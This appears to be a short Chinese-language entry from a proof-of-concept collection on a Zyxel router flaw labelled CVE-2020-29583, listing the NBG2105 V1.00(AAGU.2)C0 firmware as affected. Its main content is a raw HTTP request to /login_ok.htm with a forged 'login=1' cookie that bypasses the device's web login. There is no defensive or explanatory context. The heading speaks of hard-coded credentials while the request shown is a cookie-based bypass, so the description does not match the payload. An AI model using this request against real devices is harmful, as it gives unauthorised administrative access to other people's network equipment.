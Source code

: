 # Zyxel 多款设备硬编码凭据漏洞（CVE-2020-29583）

影响范围：
- NBG2105 V1.00(AAGU.2)C0

POC:
```
GET /login_ok.htm
Host:xxx.xxx.xxx.xxx
cookie:login=1
```

 ![[exp.png]]